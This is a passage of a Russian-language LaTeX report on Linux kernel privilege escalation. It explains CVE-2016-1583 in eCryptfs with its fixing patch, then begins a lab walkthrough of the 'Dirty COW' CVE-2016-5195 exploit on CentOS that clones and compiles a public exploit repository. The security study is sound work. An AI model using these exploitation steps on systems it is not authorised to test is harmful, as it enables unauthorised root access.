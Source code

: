 Ядро Linux подвержено уязвимости CVE-2016-1583, благодаря которой существует возможность поднятия привилегий локальному пользователю при помощи eCryptfs.

С помощью формирования рекурсивных вызовов в пространстве пользователя позможно добиться переполнения стека ядра.
Злоумышленник может организовать цепочку рекурсивных отражений в память файла, при которой процесс отражает в свое окружения другие файлы \cite{ecryptfs}.
При чтении содержимого файлов будет вызван обработчик pagefault для процессов, что приведет к переполнению стека.

Соответствующие исправления были приняты в июне 2016~г. в ядре Linux:
\begin{lstlisting}
diff --git a/fs/proc/root.c b/fs/proc/root.c
+sb->s_stack_depth = FILESYSTEM_MAX_STACK_DEPTH;

diff --git a/fs/ecryptfs/kthread.c b/fs/ecryptfs/kthread.c
+#include <linux/file.h>

-goto out;
+goto have_file;

-if (IS_ERR(*lower_file))
+if (IS_ERR(*lower_file)) {
+  goto out;
+}
+have_file:
+  if ((*lower_file)->f_op->mmap == NULL) {
+    fput(*lower_file);
+    *lower_file = NULL;
+    rc = -EMEDIUMTYPE;
+  }
\end{lstlisting}


\subsection{Эксплуатация уязвимостии ядра Linux CVE-2016-5195 <<Dirty COW>>}

Наиболее опасной уязвимостью 2016~г. является CVE-2016-5195 с кодовым именем <<Dirty COW>>.
Такая степень опасности обусловлена тем, что ей подвержены практически все ядра Linux начиная с версии 2.6.22, а также легкостью применения эксплоитов.

В данном разделе применяется эксплоит \cite{dcowexp}, позволяющий получить права суперпользоваться из-под локального пользователя.

Для эксплуатации используется дистрибутив CentOS:
\begin{lstlisting}
# cat /etc/redhat-release
CentOS Linux release 7.2.1511 (Core)
# uname -r
3.10.0-327.el7.x86_64
\end{lstlisting}

Необходимо повысить привилегии локального пользователя dcow до суперпользователя root, для этого необходимо скачать эксплоит и установить инструменты для компиляции (gcc/g++).
После установки всех необходимых настроек компилируем код эксплоита:
\begin{lstlisting}
$ id
uid=1000(dcow) gid=1000(dcow) groups=1000(dcow)
$ git clone https://github.com/gbonacini/CVE-2016-5195
$ cd CVE-2016-5195/
$ make
g++ -Wall -pedantic -O2 -std=c++11 -pthread -o dcow dcow.cpp -lutil
\end{lstlisting}

